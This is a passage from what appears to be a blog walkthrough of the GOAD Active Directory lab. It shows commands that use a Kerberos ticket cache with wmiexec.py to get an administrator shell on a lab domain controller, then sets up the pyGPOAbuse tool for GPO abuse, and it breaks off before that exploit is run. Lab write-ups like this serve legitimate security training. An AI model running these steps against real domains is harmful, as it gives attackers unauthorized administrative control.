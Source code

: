 ```bash
export KRB5CCNAME=/workspace/acl/Administrator.ccache
wmiexec.py -k -no-pass sevenkingdoms.local/administrator@kingslanding.sevenkingdoms.local
```

![acl_silverticket.png](/assets/blog/GOAD/acl_silverticket.png)


Ok the fun with sevenkingdoms.local domain is over, now let's try some acl in the other domains.

## GPO abuse

- There is a GPO abuse on the north domain

![acl_gpo_abuse.png](/assets/blog/GOAD/acl_gpo_abuse.png)

- To abuse GPO we will use the project created by Hackndo : [pyGPOAbuse](https://github.com/Hackndo/pyGPOAbuse)
- The github readme file say : _"It will create an immediate scheduled task as SYSTEM on the remote computer for computer GPO, or as logged in user for user GPO."_

```bash
git clone https://github.com/Hackndo/pyGPOAbuse.git
python3 -m virtualenv .venv
source .venv/bin/activate
python3 -m pip install -r requirements.txt
```

- We get the id from bloodhound and launch the exploit with :
